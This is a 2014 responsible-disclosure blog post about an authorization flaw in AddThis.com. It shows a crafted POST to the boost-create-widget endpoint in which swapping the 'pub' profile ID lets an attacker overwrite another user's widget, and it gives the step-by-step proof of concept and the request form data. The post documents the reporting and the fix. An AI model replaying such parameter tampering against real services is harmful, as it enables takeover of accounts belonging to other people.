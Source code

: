 ```yaml
---
layout: post
title:  "Disclosure: How I'm able to take control of any Addthis.com user account!"
date:   2014-10-11 10:04:22
categories: responsible-disclosure
permalink: post/how-im-able-to-take-control-of-any-addthis-com-account/
---
```


### Description

During publishing this site I've added the Addthis.com plugin (one of the most popular plugin) for sharing content etc.. I'm was surprised when I discovered that I'm able to take complete control of any user account!.

> AddThis is the world's largest content sharing and social insights platform:
>
> 1. Easy-to-use tools help users to share your content and drive viral traffic
> 2. In-depth analytics provide insight into your audience and user activity
> 3. Powerful APIs let you create your own UI, access analytics, and more
> 

### Proof of Concept:

**User_X = ra-5438e922313abc3a** attacker  
**User_Y = ra-538ce0c960e04da4** victim  

`ra-XXXXXXXXXXXXXXXX reference to User ProfileId`

1. **User_X** visit the website of **User_Y** that use **Addthis plugin**  
2. **User_X** inspect the page source code and search for profileid string **ra-538ce0c960e04da4** of **User_Y**
3. **User_X login** into his Addthis.com account (**ra-5438e922313abc3a** was assigned to **User_X**)
4. **User_X** make a **POST Request** to:  
**https://www.addthis.com/meta-data/boost-create-widget** endpoint with **crafted header**  
([Live HTTP Headers](https://addons.mozilla.org/it/firefox/addon/live-http-headers/ "Live HTTP Headers")) using method `boost-create-widget`
5. **Before User_X make a POST Request**, The **pub property** need to be changed with vulnerable site property value (ex. **(User_X) ra-5438e922313abc3a => (User_Y) ra-538ce0c960e04da4**)

#### Example POST Request Header

{% highlight http %}
Remote Address:208.49.103.220:443
Request URL:https://www.addthis.com/meta-data/boost-create-widget
Request Method:POST
Status Code:200 OK
Request Headersview parsed
POST /meta-data/boost-create-widget HTTP/1.1
Host: www.addthis.com
Connection: keep-alive
Content-Length: 1070
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
[..]
{% endhighlight %}

#### Crafted POST Form Data

{% highlight http %}
pub:ra-538ce0c960e04da4      // (User_X) ra-5438e922313abc3a => (User_Y) ra-538ce0c960e04da4
template:_default
widget[enabled]:true
widget[title]:Follow
widget[size]:large
widget[orientation]:vertical
widget[elements]:.addthis_vertical_follow_toolbox
widget[id]:flwv
widget[services][0][id]:pwned
widget[services][0][service]:facebook
widget[services][0][svc]:facebook
widget[services][0][name]:Facebook
widget[services][0][url]:http://www.facebook.com/pwned
widget[services][1][id]:pwned
widget[services][1][service]:twitter
widget[services][1][svc]:twitter
widget[services][1][name]:Twitter
widget[services][1][url]:http://twitter.com/intent/follow?source=followbutton&variant=1.0&screen_name=pwned
widget[services][2][id]:pwned
widget[services][2][service]:linkedin
widget[services][2][svc]:linkedin
widget[services][2][name]:LinkedIn
widget[services][2][url]:http://www.linkedin.com/in/pwned 
{% endhighlight %}

Now **User_X** receive a `201 response`.  
While in, the **User_Y** website plugin data get updated with **pwned** property value setted by **User_X**.

Note that, a malicious user can perform any request through vulnerable user pub property id value.  
In addition, the website **Addthis.com is devoid largely** of controls **CSRF** for this reason there's no proof of concept, It is really clear..

### Example video scenario using Addthis "/boost-create-widget" method

<div class="photo_frame_center">
	<video width="480" height="360" controls>
		Sorry, your browser doesn't support embedded videos, 
		but don't worry, you can <a href="/video/security/responsible-disclosure/addthis-vulnerability.ogv">Download It</a>
		and watch it with your favorite video player!
		<source src="/video/security/responsible-disclosure/addthis-vulnerability.ogv" type='video/ogg; codecs="theora, vorbis"'>
	</video>
</div>

Watch in <a href="https://www.youtube.com/watch?v=RRkDVY97D88" title="How I'm able to take control of any Addthis.com user account!" target="_blank">YouTube</a>

### Disclosure:

* **10/10/2014** – Report to Addthis Support
* **13/10/2014** – Received a response from Addthis Support
* **14/10/2014** – Reply from Addthis that informs me that the bug was fixed
* **14/10/2014** – Public disclosure
